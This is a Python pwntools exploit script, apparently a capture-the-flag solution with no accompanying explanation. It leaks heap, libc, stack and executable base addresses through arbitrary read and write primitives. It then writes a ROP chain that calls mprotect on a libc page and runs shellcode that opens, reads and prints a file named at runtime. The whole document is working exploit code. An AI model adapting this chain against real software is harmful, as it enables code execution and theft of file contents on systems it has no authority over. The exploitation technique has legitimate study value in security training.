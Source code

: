 ```py
# NX:       NX enabled
# PIE:      PIE enabled

libc = ELF('libc.so.6')

io = start()

io.sendlineafter(b">> ", b"3")
io.sendlineafter(b">> ", b"8")
io.recvuntil(b">> ")

io.sendlineafter(b">> ", b"5")
heap = unpack(io.recvuntil(b"\n1) read\n", drop=True).ljust(8, b'\x00')) - 0x22a0
io.info("HEAP: " + hex(heap))

count = heap + 0x2a0
io.sendlineafter(b">> ", b"2")
io.sendlineafter(b">> ", format(count, 'x').encode())
io.sendlineafter(b">> ", b'8' + b'0'*7)

io.sendlineafter(b">> ", b"1")
io.sendlineafter(b">> ", format(heap + 0x320, 'x').encode())
libc.address = int(io.recvline(), 0) - 0x212ca0
io.info("LIBC: " + hex(libc.address))

io.sendlineafter(b">> ", b"1")
io.sendlineafter(b">> ", format(libc.address + 0x1f1190, 'x').encode())
rbp = int(io.recvline(), 0) - 0xf8
io.info("RBP: " + hex(rbp))

io.sendlineafter(b">> ", b"1")
io.sendlineafter(b">> ", format(rbp - 0x18, 'x').encode())
exe.address = int(io.recvline(), 0) - 0x1794
io.info("EXE: " + hex(exe.address))

rwx = libc.address + 0x1eb000

rop = ROP(libc)
rop.mprotect(rwx, 0x2000, 7)
rop.read(0, rwx, 0x1000)
rop.raw(rwx)
print(rop.dump())

chain = rop.chain()
nextqwordaddr = rbp
for qword in [chain[i: i + 4] for i in range(0, len(chain), 4)]:
    io.sendlineafter(b">> ", b"2")
    io.sendlineafter(b">> ", format(nextqwordaddr, 'x').encode())
    io.sendlineafter(b">> ", format(u32(qword), 'x').encode())
    io.info("wrote to " + hex(nextqwordaddr))
    nextqwordaddr += 0x4

io.sendlineafter(b">> ", b"2")
io.sendlineafter(b">> ", format(rbp - 0x18, 'x').encode())
io.sendlineafter(b">> ", format(ROP(exe).find_gadget(['pop r14', 'pop r15', 'ret'])[0], 'x').encode())

string_addr = rwx + 0x1000

shellcode  = asm(shellcraft.read(0, string_addr, 100))
shellcode += asm(shellcraft.open(string_addr, 0))
shellcode += asm(shellcraft.read('rax', string_addr, 100))
shellcode += asm(shellcraft.write(1, string_addr, 100))
```